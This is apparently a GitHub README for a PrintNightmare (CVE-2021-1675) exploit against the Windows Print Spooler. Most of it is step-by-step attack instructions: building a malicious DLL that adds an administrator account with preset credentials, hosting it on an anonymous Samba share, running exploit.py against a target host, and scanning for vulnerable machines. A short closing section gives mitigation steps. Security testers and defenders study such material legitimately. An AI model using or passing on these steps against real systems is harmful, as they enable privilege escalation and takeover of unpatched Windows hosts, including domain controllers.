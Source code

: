 # CVE-2021-1675

Borrowed from [cube0x0](https://twitter.com/cube0x0) impacket fork and exploit: https://github.com/cube0x0/CVE-2021-1675  

### Install

```
pip3 uninstall impacket
git clone --branch PrintNightmare https://github.com/LuemmelSec/impacket
cd impacket
python3 -m pip install .
apt install mingw-w64
```

### Build DLL (64 bit)
I used this version: https://github.com/newsoft/adduser  

You can use the evil32.dll or evil64.dll under ./DLL
Username: PWND  
Password: B@dPass123!

Or build your own:  
```
cd DLL  
cp Tchar.h /usr/x86_64-w64-mingw32/include/
cp Lmaccess.h /usr/x86_64-w64-mingw32/include/
cp Tchar.h /usr/i686-w64-mingw32/include
cp Lmaccess.h /usr/i686-w64-mingw32/include/
```

Edit the evil.c to your needs:  
- change username & password  
- change name of the local admin group -> language dependant  

Build the DLL  64 bit:  
```
x86_64-w64-mingw32-gcc -shared -oevil64.dll evil.c -lnetapi32
cp evil64.dll /tmp/
```

Build the DLL 32 bit:  
```
i686-w64-mingw32-gcc -shared -oevil32.dll evil.c -lnetapi32
cp evil32.dll /tmp/
```

### SMB configuration

#### Linux  

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start SMB Service
```
service smbd start
```

#### Windows

But you can also go the Windows route.  
You may use the following scripts to make all needed changes according to the languages:  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_de.ps1  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_en.ps1  

Tested on Windows 10, but should work on all other Windows versions.  

### exploit.py

```
python3 exploit.py mcafeelab.local/lowpriv@10.55.0.1 '\\10.55.0.30\smb\evil64.dll'
```


### Scanning

We can use `rpcdump.py` from impacket to scan for vulnerable hosts, if it returns a value, it's vulnerable 

```
rpcdump.py @192.168.1.10 | grep MS-RPRN

Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

Disable Spooler service (might not be suitable on systems where local printing like PDF printers are needed - so test it).  
And please: NO FCKN DCs NEED THIS SERVICE!!!  

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

Or Uninstall Print-Services

```powershell
Uninstall-WindowsFeature Print-Services
```

If one day there will be patches from MS to address all the flaws -> install them ASAP.  

### Further reading / tools  
[Kevin Beaumont](https://twitter.com/GossiTheDog) gathered the most relevant facts and collected them here:  
https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c

[Marcello](https://twitter.com/byt3bl33d3r) build a tool to scan for vulnerable systems from linux without actually exploiting them:  
https://github.com/byt3bl33d3r/ItWasAllADream  

[Benjamin Delpy](https://twitter.com/gentilkiwi) integrated the attack in the newest version of [mimikatz](https://github.com/gentilkiwi/mimikatz).  
